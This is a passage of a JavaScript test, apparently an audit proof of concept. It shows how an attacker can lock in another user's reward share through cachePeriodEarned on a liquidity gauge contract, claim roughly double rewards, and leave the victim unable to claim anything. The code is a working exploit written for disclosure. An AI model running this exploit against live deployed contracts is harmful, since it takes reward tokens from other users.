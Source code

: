 ```javascript
            // Begin by minting two positions, both with 100 liquidity in the same range
            await c.mint(wallet.address, 0n, -10, 10, 100n)
            await c.mint(attacker.address, 0n, -10, 10, 100n)
            console.log("Liquidity after", await c.pool.liquidity());

            // Also add 10 tokens as a gauge reward for this period
            await c.usdc.approve(c.clGauge, ethers.MaxUint256);
            await c.clGauge.notifyRewardAmount(c.usdc, ethers.parseEther("10"))   

            // Increase to the next period
            await helpers.time.increaseTo(secondPeriodTime);

            // See how much the two positions have earned, should be basically 50 USDC each
            const walletEarned1 = await c.clGauge.periodEarned(startPeriod, c.usdc, wallet.address, 0, -10, 10);
            const attackerEarned1 = await c.clGauge.periodEarned(startPeriod, c.usdc, attacker.address, 0, -10, 10);
            const tokenTotalSupplyByPeriod = await c.clGauge.tokenTotalSupplyByPeriod(startPeriod, c.usdc);

            console.log("walletEarned1", walletEarned1);
            console.log("attackerEarned1", attackerEarned1);
            console.log("tokenTotalSupplyByPeriod", tokenTotalSupplyByPeriod);

            // Notice that anyone can cache the "wallet" address earned amount. This will "lock in" that
            // the wallet address has earned ~50 USDC.
            await c.clGauge.cachePeriodEarned(startPeriod, c.usdc, wallet.address, 0, -10, 10, true);

            // Now if a whole period goes by, the "endSecondsPerLiquidityPeriodX128" for the startPeriod will be
            // set too far in the future, and the attacker will end up getting double the rewards they should.
            await helpers.time.increaseTo(thirdPeriodTime);
            await c.clPool._advancePeriod();

            const attackerEarned2 = await c.clGauge.periodEarned(startPeriod, c.usdc, attacker.address, 0, -10, 10);
            console.log("attackerEarned2", attackerEarned2);
            const attackerBalanceBefore = await c.usdc.balanceOf(attacker.address);
            await c.clGauge.connect(attacker).getPeriodReward(startPeriod, [c.usdc], attacker.address, 0, -10, 10, attacker.address);
            const attackerBalanceAfter = await c.usdc.balanceOf(attacker.address);
            console.log("attacker claim amount", attackerBalanceAfter - attackerBalanceBefore);

            // This is all at the expense of the wallet address, because they had their rewards "locked in" and 
            // can't benefit from the bug, and moreover will not be able to claim anything because the attacker
            // took all the tokens
            const walletEarned2 = await c.clGauge.periodEarned(startPeriod, c.usdc, wallet.address, 0, -10, 10);
            console.log("walletEarned2", walletEarned2);
            await expect(
                c.clGauge.connect(wallet).getPeriodReward(startPeriod, [c.usdc], wallet.address, 0, -10, 10, wallet.address)
            ).to.be.revertedWithCustomError(c.usdc, 'ERC20InsufficientBalance');

            console.log("-------------------- END --------------------");
        });
    });
});
```
